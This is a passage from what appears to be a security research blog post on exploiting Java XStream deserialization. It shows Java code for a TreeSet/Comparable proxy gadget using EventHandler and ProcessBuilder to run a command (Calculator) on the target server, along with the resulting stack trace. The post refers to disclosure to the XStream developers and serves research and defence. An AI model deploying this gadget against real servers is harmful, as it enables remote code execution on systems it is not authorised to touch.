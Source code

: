 Convenient, isn't it?

So as soon as the server code reaches a method call on the proxified interface like the following line on our example controller:

```lang-java line-numbers 
log(”Creating new contact: " + contact.getFirstName());
```

The method call will be intercepted and replaced with our payload and the result will be a malicious calculator running on the server :)

![](/images/octopress/calc.png)

## Increasing the success likelihood
Finding out what Class the server is expecting can be difficult and we also have the limitation that the class needs to implements an interface. How many applications have you seen using interfaces for POJO DTOs?? A solution for this problem is to serialize an object that contains other objects and that in order to instantiate this object, a call to an interface method has to be made. This is where we will be able to inject our malicious code using an **InvocationHandler**. The original idea by **Jörg Schaible** (XStream developer) was proposed during the disclosure to the XStream team and can be found [here](https://www.mail-archive.com/user@xstream.codehaus.org/msg00605.html). This variant consists on serializing a [java.util.TreeSet](http://docs.oracle.com/javase/6/docs/api/java/util/TreeSet.html) containg different objects implementing the [java.lang.Comparable](http://docs.oracle.com/javase/7/docs/api/java/lang/Comparable.html) interface so that when the **Set** is instantiated on the server side, the **Comparable** interface methods are called to sort the **Set**. All we have to do now is to add a dynamic proxy intercepting any method call to the **Comparable** interface and replacing it with our payload:

```lang-java line-numbers 
Set<Comparable> set = new TreeSet<Comparable>();
set.add("foo");
set.add(EventHandler.create(Comparable.class, new ProcessBuilder("open","/Applications/Calculator.app"), "start"));
```

If we try to serialize it using XStream **toXML** it will throw a Cast exception and we wont be able to get the serialized version:

```lang-java line-numbers 
Set<Comparable> set = new TreeSet<Comparable>();
set.add("foo");
set.add(EventHandler.create(Comparable.class, new ProcessBuilder("/Applications/Calculator.app/Contents/MacOS/Calculator"), "start"));
String payload = xstream.toXML(set);
System.out.println(payload);
```

Will throw:

```lang-bash line-numbers 
Exception in thread "main" java.lang.ClassCastException: java.lang.UNIXProcess cannot be cast to java.lang.Integer
  at com.sun.proxy.$Proxy4.compareTo(Unknown Source)
  at java.util.TreeMap.put(TreeMap.java:560)
  at java.util.TreeSet.add(TreeSet.java:255)
  at com.pwntester.xstreampoc.Main.main(Main.java:26)
  at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
  at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
  at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
  at java.lang.reflect.Method.invoke(Method.java:601)
  at com.intellij.rt.execution.application.AppMain.main(AppMain.java:120)
```
